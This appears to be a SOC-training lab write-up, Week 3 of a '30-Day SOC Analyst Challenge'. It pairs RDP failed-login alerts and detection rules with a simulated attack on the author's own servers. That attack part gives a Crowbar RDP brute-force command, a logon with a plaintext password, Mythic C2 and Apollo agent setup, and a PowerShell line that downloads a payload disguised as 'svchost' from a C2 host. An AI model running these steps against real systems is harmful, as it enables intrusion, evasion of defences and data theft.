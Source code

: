 # Week 3: Brute Force RDP Attack Simulation and Mythic C2 Setup

Hey everyone! Welcome to Week 3 of the **30-Day SOC Analyst Challenge**. This week, I jumped into setting up the **Mythic C2C** and got the **Apollo Agent** configured. There were a few bumps along the way, but I’ve learned a ton and will walk you through everything I did, why I did it, and share some helpful tips to make your setup process smoother if you're following along.

### 1. Finding Exposed RDP Servers
- **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2043%20Creating%20an%20account%20with%20shodan%20and%20searching%20port%203389.PNG) 
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2044%20Using%20Censys%20for%20Finding%20open%20RDP%20ports%20too.PNG) 

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2045%20Saving%20a%20log%20query%20for%20Failed%20RDP%20Login%20Attempts%2C%20seeing%20my%20own%20log!.PNG) <!-- Replace with actual image link -->
- Created an alert for failed RDP attempts.
  ![Alert Generation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2046%20Creating%20the%20Alert%20rule%20for%20failed%20RDP%20Attempts.PNG) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2047%20Generating%20an%20alert%20via%20brute%20force%20RDP.PNG) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2048%20This%20is%20where%20we%20make%20REAL%20alerts.PNG) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment. I chose to make my own
      ![Preconfigured Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2049%20Lets%20Create%20a%20new%20rule.PNG) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%205%20Set%20it%20to%20this%20so%20you%20can%20access%20it%20via%20SOC%20Laptop.png) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2050%20Select%20this%20type%20of%20rule.PNG) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2052%20My%20new%20rules%20are%20set.PNG) <!-- Replace with actual image link -->

### 4. Data Visualization
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2054%20Created%20some%20tabled%20for%20my%20dashboard%20to%20visualize%20SSH%20data%20on%20my%20linux%20server.PNG) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table]([link_to_your_image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2055%20Made%20some%20tables%20for%20the%20RDP%20activity%20on%20Windows%20Server.PNG)) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2056%20Network%20Attack%20Diagram.PNG) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    ```bash
    sudo apt install docker-compose
    sudo apt install make
    git clone https://github.com/its-a-feature/mythic
    cd mythic
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2057%20Install%20Mythic%20Github%20Repo.PNG) <!-- Replace with actual image link -->
- Checked Docker status before restarting the service.
  ![Docker Status](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2058%20run%20the%20docker%20install%20command%20in%20your%20mythic%20directory.PNG) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2059%20This%20is%20what%20my%20firewall%20looks%20like%20now%2C%20only%20allowing%20my%20windows%20and%20linux%20server%2C.PNG) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2060%20Get%20your%20mythic%20admin%20password.PNG) <!-- Replace with actual image link -->
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2061%20We're%20in%20the%20mythic%20dashboard!.PNG) <!-- Replace with actual image link -->
### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password called "passwords.txt"
- Moved to Kali Linux machine wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2062%20lets%20access%20our%20wordlists%20directory.png) <!-- Replace with actual image link -->
### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access. This way we can simulate our attack as if someone brute forced
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2064%20Crowbar%20Successfully%20installed.png) <!-- Replace with actual image link -->
- (Note, I extracted the first 50 words in rockyou.txt to a file named top_50_words.txt, this is the text file i added the windows server password into)
- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2066%20Successful%20brute%20force!.png) <!-- Replace with actual image link -->
### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2067%20Successfully%20in%20the%20RDP%20session!.png) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
- Turn off windows protection
- ![image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2068%20lets%20disable%20all%20the%20protection.png)


### 12. Downloading, Preparing, and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```

- Allow port 80:
    ```bash
    ufw allow 80
    ```

- Allow port 9999:
    ```bash
    ufw allow 9999
    ```

- run the python session:
    ```bash
    python3 -m http.server 9999
    ```

- Downloaded the payload onto our windows server RDP session:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```

### 12. Created the payload with your installed services:
- Ensured it calls back to the C2 server's public IP.
- ![Make sure](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2073%20put%20what%20you%20want%20in%20your%20payload%2C%20and%20make%20it%20call%20back%20to%20your%20C2%20server.PNG)

### 14. Monitor The Connection
- Result of the payload on the Windows server.
  ![Payload Execution](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2077%20We%20can%20see%20our%20established%20session.PNG)
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2078%20Our%20attack%20was%20successful%2C%20we%20got%20the%20file.PNG) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.
